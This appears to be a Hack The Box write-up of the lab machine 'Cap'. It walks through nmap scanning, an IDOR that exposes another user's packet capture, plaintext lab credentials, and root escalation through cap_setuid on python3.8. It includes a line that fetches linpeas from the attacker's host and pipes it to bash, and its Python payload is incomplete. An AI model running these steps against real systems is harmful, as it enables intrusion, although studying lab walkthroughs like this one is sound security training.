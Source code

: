 ```yaml
---
layout: single
title: Cap - Hack The Box
excerpt: ""
date: 2024-10-08
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-writeup/
  teaser_home_page: true
  icon: /blog/assets/images/hackthebox.webp
categories:
  - WriteUp
#tags:
 # - linux
  #- http
---
```



## Synopsis

Cap is an easy Linux machine running an HTTP server that performs administrative functions, including network captures. Improper controls lead to an Insecure Direct Object Reference (IDOR) vulnerability, allowing access to another user's capture. The capture contains plaintext credentials, which can be used to gain initial access. A Linux capability is then exploited to escalate privileges to root.

## Skills Required
- Web enumeration  
- Packet capture analysis  

## Skills Learned
- Exploiting IDOR vulnerabilities  
- Leveraging Linux capabilities  

## Enumeration

### Nmap Scan

ports=$(nmap -p- --min-rate=1000 -Pn -T4 10.10.10.245 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.245


Nmap reveals three open ports:
- **FTP (21)**
- **SSH (22)**
- **HTTP (80)**

### FTP
Anonymous access is disabled. Moving on to the HTTP server.

### HTTP
Port 80 runs Gunicorn, a Python-based HTTP server. The dashboard reveals administrative functions:
- **IP Config:** Displays `ifconfig` output.
- **Network Status:** Displays `netstat` output.
- **Security Snapshot:** Captures network traffic and provides a downloadable `.pcap` file.


## Exploitation

### Insecure Direct Object Reference (IDOR)
The URL scheme for packet captures is `/data/<id>`. By manually accessing `/data/0`, we retrieve a packet capture from another user.

### Foothold
Analyzing the capture in Wireshark reveals FTP traffic, including plaintext credentials:
- **Username:** nathan  
- **Password:** Buck3tH4TF0RM3!  

These credentials are valid for both FTP and SSH, granting access to the machine.


## Privilege Escalation

### Linux Capabilities
Running `linPEAS` reveals that `/usr/bin/python3.8` has the `cap_setuid` capability, allowing privilege escalation.

### Exploiting `cap_setuid`
The following Python code escalates to root:
import os
os.setuid(0)


### Steps:
1. Download `linpeas.sh` to the target machine:
   curl http://10.10.14.24/linpeas.sh | bash
   
2. Execute the Python payload to gain a root shell.

---

## Conclusion
Cap demonstrates the dangers of insecure access controls and misconfigured Linux capabilities. By exploiting IDOR and leveraging `cap_setuid`, we escalate from a low-privileged user to root.

--- 

This writeup is concise, structured, and highlights the key steps and vulnerabilities exploited during the penetration test.